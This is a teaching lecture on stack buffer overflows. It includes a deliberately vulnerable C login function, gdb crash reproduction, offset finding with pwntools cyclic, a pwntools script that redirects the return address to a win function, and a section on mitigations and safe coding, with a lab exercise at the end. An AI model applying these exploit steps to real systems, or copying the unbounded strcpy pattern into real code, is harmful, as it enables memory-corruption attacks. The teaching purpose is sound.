

# Basic Stack Overflows

A stack overflow is the oldest and clearest memory-safety bug: a program copies more data into a
local buffer than the buffer can hold, and the surplus overwrites whatever the compiler placed after
it. This lecture works through the mechanism, how to find the exact offset, and what each mitigation
actually stops.

Work only on binaries you built yourself or on an authorized lab target (Module 01).

## 2.1 How a Frame Is Built

Every function call allocates a frame on the stack. A typical x86-64 prologue and epilogue:

```text
  push rbp          ; save the caller's frame pointer
  mov  rbp, rsp     ; this frame's base
  sub  rsp, 0x50    ; room for locals
  ...
  leave             ; mov rsp, rbp ; pop rbp
  ret               ; pop the return address into rip
```

At the moment `ret` executes, the eight bytes at `rsp` are taken as the next instruction address.
The call put them there; nothing re-validates them.

## 2.2 The Overflow

```c
#include <stdio.h>
#include <string.h>

void login(const char *user) {
    int authenticated = 0;
    char buf[64];

    strcpy(buf, user);            /* no bound at all */
    if (authenticated) {
        puts("welcome, admin");
    } else {
        printf("hello, %s\n", buf);
    }
}
```

`strcpy` copies until it finds a null byte. Local buffers are laid out at lower addresses than the
saved frame pointer and the return address, and the copy moves towards higher addresses, so a long
enough `user` runs straight through `authenticated`, the saved `rbp` and the return address.



Three escalating outcomes, in increasing order of usefulness to an attacker:

1. **Corrupt a neighbouring variable.** Overwriting `authenticated` with any non-zero byte takes the
   admin branch. No control-flow hijack needed, and no mitigation in this lecture prevents it.
2. **Crash.** The return address becomes `0x4141414141414141`, `ret` jumps there, and the process
   dies with SIGSEGV. This is what a fuzzer finds.
3. **Redirect execution.** The return address is replaced with a chosen, valid address.

Note that the compiler decides the actual order of locals; it is not required to match declaration
order. Verify the layout in the debugger instead of assuming it.

## 2.3 Reproducing the Crash

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*200)' > input.txt
gdb ./vuln
```

```text
  (gdb) run < input.txt
  Program received signal SIGSEGV, Segmentation fault.
  0x0000000000401196 in login ()
  (gdb) x/4gx $rsp
  (gdb) info registers rsp rbp rip
```

A `rip` or a faulting address full of `0x41` bytes means the input reached the return address.

## 2.4 Finding the Offset

Guessing the distance from the start of the buffer to the return address is slow. A de Bruijn
pattern solves it in one run: every four-byte window in the pattern is unique, so the bytes that end
up in the return address identify their own position.

```python
from pwn import *

context.binary = ELF("./vuln")
open("input.txt", "wb").write(cyclic(300))
```

Run the binary on that file under `gdb`, let it crash, and read the bytes that landed where the
return address belongs:

```text
  (gdb) run < input.txt
  Program received signal SIGSEGV, Segmentation fault.
  (gdb) x/1s $rsp
```

Then convert the four pattern bytes you read back into a distance from the start of the buffer:

```bash
cyclic -l aaba        # prints the offset of that window in the pattern
```

Confirm the number before building on it: send `cyclic(offset) + b"BBBBBBBB"` and check that
exactly those `B` bytes reached the return address.

## 2.5 Overwriting the Return Address

With the offset known, the payload is padding plus the address you want `ret` to use. For a first
exercise, a function already in the binary:

```python
from pwn import *

elf = context.binary = ELF("./vuln")
offset = 72                          # measured, not guessed

payload  = b"A" * offset
payload += p64(elf.symbols["win"])   # an existing function in the target

io = process("./vuln")
io.sendline(payload)
io.interactive()
```

Two practical points that come up immediately:

- **Null bytes.** Addresses on x86-64 contain `0x00` bytes. `strcpy` and `gets` stop at the first
  one, so the address must sit at the very end of the payload. Reads done with `read` or `fread`
  are not affected.
- **Stack alignment.** The ABI requires `rsp` to be 16-byte aligned at a `call`. Some library
  functions use SSE instructions that fault on an unaligned stack. If a jump into a libc function
  crashes on a `movaps` instruction, the usual fix is to prepend a single `ret` gadget to realign.

Classic shellcode injection, writing machine code into the buffer and returning to it, only works
if the stack is executable, which is why the lecture does not build an exploit around it. On any
current system NX is on and the technique is dead; Lecture 3 covers what replaced it.

## 2.6 Related Patterns Worth Recognising

- **Off-by-one.** A loop with `<=` instead of `<`, or `strncat` miscounting the terminator, writes
  exactly one byte too far. On a frame that is enough to change the least significant byte of the
  saved frame pointer, and sometimes enough to pivot the next frame.
- **Integer mistakes in size arithmetic.** `malloc(n * size)` where the product overflows, or a
  signed length compared against a smaller buffer and then passed to `memcpy`, which takes a
  `size_t` and converts a negative value into a huge one.
- **Functions with no bound at all.** `gets`, `strcpy`, `strcat`, `sprintf`, `scanf("%s")`. `gets`
  cannot be used safely and was removed from the C standard in C11.

## 2.7 What Stops It

In order of what a developer controls first.

### 2.7.1 Write bounded code

Use a length-aware interface and check its result. `snprintf` returns the length it *would* have
written, so a return value of at least the buffer size means truncation happened.

```c
if (snprintf(buf, sizeof buf, "%s", user) >= (int) sizeof buf) {
    return -1;   /* input did not fit: handle it, do not ignore it */
}
```

`sizeof buf` rather than a repeated constant, and `size_t` for every length, removes most of the
arithmetic mistakes along with the overflow.

### 2.7.2 Stack canaries

With `-fstack-protector-strong`, the compiler stores a random value between the locals and the
saved registers, and checks it in the epilogue. A sequential overflow that reaches the return
address must pass through the canary, so the check fails and the process aborts.

```bash
gcc -fstack-protector-strong -o app app.c
```

A canary turns a code-execution bug into a denial of service. It does not stop an overflow that
only corrupts a neighbouring local, a write at an attacker-chosen index, or an exploit that first
leaks the canary value.

### 2.7.3 NX and ASLR

A non-executable stack (`-z noexecstack`, the default) stops execution of injected code. Position
independence (`-fPIE -pie`, plus kernel ASLR) randomises the addresses an exploit needs, so a
hard-coded target address is wrong on every run. Both are on by default on current distributions;
the teaching builds in Lecture 1 switch them off deliberately.

### 2.7.4 Fortified libc and compiler warnings

```bash
gcc -O2 -D_FORTIFY_SOURCE=2 -Wall -Wextra -Wformat -Werror=format-security \
    -fstack-protector-strong -fstack-clash-protection -o app app.c
```

`_FORTIFY_SOURCE` makes glibc check the destination size of common copies where the compiler knows
it, and aborts instead of overflowing. It requires optimisation to be enabled.

### 2.7.5 Find the bug before shipping

```bash
gcc -fsanitize=address,undefined -g -o app_asan app.c   # then run the test suite
```

AddressSanitizer reports the overflow at the moment it happens, with the allocation site, which is
far more useful than a crash later. Combine it with a fuzzer (`-fsanitize=fuzzer`, AFL++) for input
parsing code. Module 06 and Module 07 cover reading the resulting disassembly.

### 2.7.6 Choose a language that checks

Rust, Go, Java, C# and Python do not allow an out-of-bounds write in safe code. For new code
handling untrusted input, that decision removes this whole lecture from the threat model.

## 2.8 Exercise

On your own lab VM:

1. Build the `login` example from 2.2 with `-fno-stack-protector -z execstack -no-pie`.
2. Find the offset to `authenticated` and flip it. Confirm the admin branch runs.
3. Find the offset to the return address with `cyclic`, and redirect `ret` into a `win` function.
4. Rebuild with `-fstack-protector-strong` and run the same payload. Record the exact message the
   process prints when it aborts, and explain which of your two payloads still works and why.

## Key Takeaways

- A stack overflow works because locals, saved registers and the return address are adjacent and a
  sequential copy walks from one to the next.
- Corrupting a local variable is often enough; hijacking `ret` is the escalation.
- Offsets are measured with a de Bruijn pattern, never guessed.
- Addresses contain null bytes, so string functions put hard limits on payload layout.
- Canaries detect sequential overwrites of the return address, NX stops injected code, and ASLR
  breaks fixed addresses. Each mitigation blocks one step of an exploit; none removes the bug.
- The fix is bounded copies, checked arithmetic, sanitizers in CI, and memory-safe languages for
  new code.

## Resources

- `man 3 snprintf`, `man 3 strncpy`, `man 3 gets` (and the note on why it was removed)
- GCC instrumentation options, `-fstack-protector` and `-fsanitize`:
  <https://gcc.gnu.org/onlinedocs/gcc/Instrumentation-Options.html>
- AddressSanitizer: <https://github.com/google/sanitizers/wiki/AddressSanitizer>
- pwntools `cyclic` and `ELF` API: <https://docs.pwntools.com/>
- CWE-121 Stack-based Buffer Overflow, CWE-787 Out-of-bounds Write: <https://cwe.mitre.org/>
